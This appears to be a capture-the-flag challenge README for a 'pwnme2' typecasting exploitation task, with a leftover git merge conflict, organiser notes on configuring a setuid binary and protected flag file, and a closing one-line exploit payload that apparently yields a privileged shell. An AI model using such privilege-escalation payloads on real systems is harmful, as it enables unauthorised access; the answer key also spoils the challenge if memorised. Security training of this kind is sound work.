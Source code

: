 # Challenge: pwnme2

<<<<<<< HEAD
# Points: 50
=======
# Points: 75
>>>>>>> 9d147b6875e430acce3ca1c3ac35f35441aeed93

# Description: 

Do you know typecasting?
Look at [this](./pwnme2) executable. 
[This](./pwnme2.c) is the sourcefile. 

# Hint: 

1. Read the sourcefile properly. 


NOTE FOR US:

NOTE TO US: 


2. While setting up, the user of **pwnme2** executable should be **pwnme2** it should be setuid to **pwnme2_pwn**. 

3. This is how convert pwnme2 into a setuid executable: 

a. Create 2 users with names **pwnme2** and **pwnme2_pwn**. . 
b. Change the owner of pwnme2-executable to **pwnme2_pwn** - chown pwnme2_pwn pwnme2
c. Change the group of pwnme2-executable to **pwnme2** - chgrp pwnme2 pwnme2
d. Set the setuid bit: chmod u+s pwnme2

So, a user with pwnme2 prvileges can also run executables with pwnme2_pwn(higher privileges) and get a shell with higher privileges to read **flag.txt** . 

4. There is a flag.txt with user **pwnme2_pwn** and group **pwnme2_pwn**. So, only with the shell with privileges **pwnme2_pwn**, one will be able to read flag.txt.

4. With tha flag.txt, the following should be done to ensure only **pwnme2_pwn** user is able to read it and no one else. 

$ sudo chmod 0400 flag.txt  - Damn Important because in normal cases, "others" are allowed to read files owned by higher-privilege-users but this should happne in our case. 

This is very very important!


./pwnme2 `python -c "print '\xdd\xb7\xd5\xdb\x57\xd7\x5f\x19' * 7 + '\xe4\xb7\xd5\xdb\x57\xd7\x5f\x19'"`
